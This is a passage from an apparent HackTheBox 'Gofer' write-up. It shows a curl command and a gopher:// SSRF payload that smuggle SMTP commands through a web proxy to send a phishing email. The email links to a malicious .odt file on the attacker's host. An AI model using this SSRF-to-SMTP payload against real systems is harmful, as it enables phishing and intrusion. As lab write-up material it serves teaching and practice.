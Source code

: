 ```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Gofer/Gopherus]
└──╼ $curl -X POST http://proxy.gofer.htb/index.php?url=gopher://2130706433:25/_MAIL%20FROM:raccoon%40gofer.htb%0ARCPT%20To:jhudson%40gofer.htb%0ADATA%0AFrom:raccoon%40gofer.htb%0ASubject:Nigerian%20Prince%0AMessage:PleAs3%20click%2010.10.14.5:8080/raccoon.odt%0A.
<!-- Welcome to Gofer proxy -->
```

At this point I do have a rough idea of what to do, but that payload isn't giving me the results I was hoping for. I end up coming across an SMTP command way to send an email and format my payload around that. 

[https://en.wikipedia.org/wiki/Simple_Mail_Transfer_Protocol](https://en.wikipedia.org/wiki/Simple_Mail_Transfer_Protocol)

```
S: 220 smtp.example.com ESMTP Postfix
C: HELO relay.example.org
S: 250 Hello relay.example.org, I am glad to meet you
C: MAIL FROM:<bob@example.org>
S: 250 Ok
C: RCPT TO:<alice@example.com>
S: 250 Ok
C: RCPT TO:<theboss@example.com>
S: 250 Ok
C: DATA
S: 354 End data with <CR><LF>.<CR><LF>
C: From: "Bob Example" <bob@example.org>
C: To: "Alice Example" <alice@example.com>
C: Cc: theboss@example.com
C: Date: Tue, 15 Jan 2008 16:02:43 -0500
C: Subject: Test message
C:
C: Hello Alice.
C: This is a test message with 5 header fields and 4 lines in the message body.
C: Your friend,
C: Bob
C: .
S: 250 Ok: queued as 12345
C: QUIT
S: 221 Bye
{The server closes the connection}
```

The stripped important bits end up becoming the following:

```
gopher://2130706433:25/xHELO%0a%0d
MAIL FROM:<raccoon@gofer.htb>%0a%0d
RCPT TO:<jhudson@gofer.htb>%0a%0d
DATA%0a%0d
From: <raccoon@gofer.htb>%0a%0d
To: <jhudson@gofer.htb>%0a%0d
Subject: Nigerian Prince%0a%0d
%0a%0d

<a href='http://10.10.14.5:8080/raccoon.odt'>click me for 1 million</a>%0a%0d
%0a%0d
%0a%0d



.%0a%0d
QUIT%0a%0d
```
